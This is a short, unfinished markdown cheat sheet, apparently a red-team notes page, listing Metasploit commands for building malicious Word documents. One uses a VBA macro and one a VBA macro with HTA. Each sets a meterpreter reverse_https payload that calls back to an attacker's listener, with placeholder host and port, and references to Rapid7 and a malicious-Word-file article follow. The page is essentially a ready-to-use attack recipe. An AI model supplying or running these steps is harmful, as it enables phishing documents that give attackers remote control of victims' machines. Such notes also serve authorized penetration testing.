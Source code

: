 # Metasploit

TODO: Finish the rest

## 01 - VBA Macro

```
msf > use exploit/windows/fileformat/office_word_macro

set payload windows/x64/meterpreter/reverse_https

set customtemplate /path/to/document.docx

set lhost <IP>

set lport <PORT>

run
```

## 02 - VBA Macro with HTA

```
msf > use exploit/windows/fileformat/office_word_hta

set payload windows/x64/meterpreter/reverse_https

set lhost <IP>

set lport <PORT>

run
```

---
## References

- [Rapid7: Metasploit Framework - Exploit FileFormat Office Word Macro](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/fileformat/office_word_macro.md)

- [Network Intelligence: Getting System Access Using Malicious Word File](https://networkintelligence.ai/getting-system-access-using-malicious-word-file/)